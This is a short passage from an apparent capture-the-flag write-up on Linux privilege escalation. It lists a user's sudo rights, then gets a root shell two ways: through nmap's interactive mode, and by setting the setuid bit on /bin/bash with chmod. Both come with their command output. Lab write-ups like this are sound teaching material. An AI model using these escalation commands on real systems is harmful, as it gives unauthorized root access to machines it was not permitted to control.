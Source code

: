# Privilege Escalation

Lista la configuración de sudo:

```
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

GTFOBins has a cheatsheet to abuse the nmap binary:
![GTFOBins nmpa sudo](https://gtfobins.github.io/gtfobins/nmap/#sudo)

You can escalate to root:

```shell
bash-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root
```

Alternatively, you can also use chmod:

```
bash-3.2$ LFILE=/bin/bash
bash-3.2$ sudo chmod 4755 $LFILE
bash-3.2$ /bin/bash -p
id
uid=100(asterisk) gid=101(asterisk) euid=0(root) groups=101(asterisk)
whoami
root
```

